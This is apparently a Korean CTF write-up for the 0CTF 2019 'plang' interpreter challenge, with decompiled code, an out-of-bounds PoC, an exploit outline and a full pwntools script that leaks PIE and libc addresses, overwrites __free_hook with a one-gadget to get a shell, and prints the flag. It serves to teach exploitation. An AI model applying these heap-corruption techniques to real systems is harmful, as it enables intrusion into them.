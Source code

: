 ```yaml
---
layout:     post
title:      "0CTF 2019 plang write-up"
subtitle:   "0ctf 2019 pwnable"
date:       2019-08-07
author:     "NextLine"
header-img: "img/post-bg-2.png"
tags:
    - WriteUp
---
```


# 0CTF 2019 plang write-up

### 1. Intro

약간 자바스크립트 엔진 익스하는거랑 비슷해서 재미있게 풀었다.


### 2. Binary

```
YoungJoo_MacBook_Pro # plang$ ls
grammar.md libc-2.27.so* plang* poc
```

문제에서는 문법에 관한 설명과 취약점을 트리거 할 수 있는 poc가 주어졌다.

```c
unsigned __int64 __fastcall cli_mode()
{
  _DWORD *v0; // rdx
  _QWORD *idx; // [rsp+8h] [rbp-428h]
  char buf[1024]; // [rsp+20h] [rbp-410h]
  unsigned __int64 v4; // [rsp+428h] [rbp-8h]
  v4 = __readfsqword(0x28u);
  for ( idx = run_init(); ; run(idx, 5u, v0, buf) )
  {
    printf("> ");
    if ( !fgets(buf, 0x400, stdin) || !memcmp(buf, "exit", 4uLL) )
      break;
    v0 = cli_error(idx, "cli", 3u);
  }
  sub_B091(idx);
  return __readfsqword(0x28u) ^ v4;
}
```

plang의 핵심 로직은 처음에 함수들을 초기화 하고 한줄씩 파싱해서 바이트코드로 변환하고 실행하는 인터프리터이다.


### 3. Vulnerability

```
var a = "This is a PoC!"
System.print(a)
var b = [1, 2, 3]
b[0x80000000] = 0x123
```

poc 파일을 보면 list에 접근할 때 크래시가 발생하는 것을 알 수 있다. (out-of-bounds)


### 4. Exploit

파싱이나 실행에는 특별히 취약점이 없을것 같아서 분석을 안하고 함수 실행 위주로 분석했다. (poc가 있으므로 다른곳에서는 취약점이 없을거라 판단)
1. oob가 극히 제한적이므로 (0x10바이트 / type(8) value(8)) 덮을 구조체를 먼저 찾았다.
2. 문자열을 다루는 구조체의 size를 큰 값으로 덮어 oob를 내고 libc를 leak했다.
3. 문자열을 가지고 있는 list를 만들어 list안에 있는 문자열의 포인터를 freehook으로 덮었다.
4. 이후 freehook에 원샷을 쓰고 free하면 끝.
한가지 재밌는점은 oob를 통해 값을 넣을때 메모리에 double로 들어가 제대로 사용하기 힘들었는데, 숫자를 계속해서 10으로 나누다 보면 10e-5 이런식의 값이 생성되어 우리가 원하는 값을 만들 수 있었다.

```python
#from ntpwn import *
from pwn import *
from struct import pack, unpack
LOCAL = 0
def conn():
    if LOCAL:
        s = process('./plang')
        #b = NT(s)
        #b.tracemalloc()
        #b.bp(0xf9d3)
        #b.bp(0x102CC)
        #b.bp(0x10496) # b[-1234] = 1
        #b.bp(0x105d1) # list.count
        #b.bp(0xFA61) # string.count
        #b.bp(0x1056C) # clear
        #b.end()
    else:
        s = remote('111.186.63.210',6666)
    return s
s = conn()
sla = s.sendlineafter
sa = s.sendafter
def go(cmd):
    sla('> ', str(cmd))
def trans(val):
    f = `unpack("<d", pack("<Q", val))[0]`
    f1 = f[:f.index("e")]
    f2 = f[f.index("e")+2:]
    return (f1, int(f2))
def makeVal(val):
    tmp = trans(val)
    aa = tmp[0]
    bb = tmp[1]
    go('var v=%s' % str(aa))
    go('var idx=0')
    go('while(idx<%d) {idx=idx+1 v=v/10}' % bb)
def makeVal2(val):
    tmp = trans(val)
    aa = tmp[0]
    bb = tmp[1]
    go('var v2=%s' % str(aa))
    go('var idx2=0')
    go('while(idx2<%d) {idx2=idx2+1 v2=v2/10}' % bb)
def makeVal3(val):
    tmp = trans(val)
    aa = tmp[0]
    bb = tmp[1]
    go('var v3=%s' % str(aa))
    go('var idx3=0')
    go('while(idx3<%d) {idx3=idx3+1 v3=v3/10}' % bb)
l = ELF('libc-2.27.so')
makeVal(0x1000000000000)
go('var a = "AAAAA"')
go('var b = [1,2,3,4]')
go('b[-67] = v')
go('System.print(a.byteCount_)')
go('var idx=0')
go('while( idx < 6){System.print(a[0x58+idx]) idx=idx+1 }')
pie = ''
for i in range(6):
    pie += s.recvline()[:-1]
pie = u64(pie + "\x00" * 2)
s.info("pie @ " + hex(pie))
go('var c={"asdf":"bbbb", "ff":1234}')
go('c.clear()')
go('System.print(c)')
go('var idx=0')
go('while( idx < 6){System.print(a[0x1738+idx-0x20]) idx=idx+1 }')
libc = ''
for i in range(6):
    libc += s.recvline()[:-1]
libc = u64(libc + "\x00" * 2) - 0x3edd37
s.info("libc @ " + hex(libc))
pause()
makeVal2(libc+l.symbols['__free_hook']+0x30-8)
go('var b3 = ["EEEEFFFF"]')
go('var b2 = [1,2,3,4]')
go('b3.count')
go('b2[-48] = v2')
makeVal3(libc + 0x4f322)
go('b3[-3] = v3')
# flag{Th1s_language_is_4_bit_p00r}
s.interactive()
```
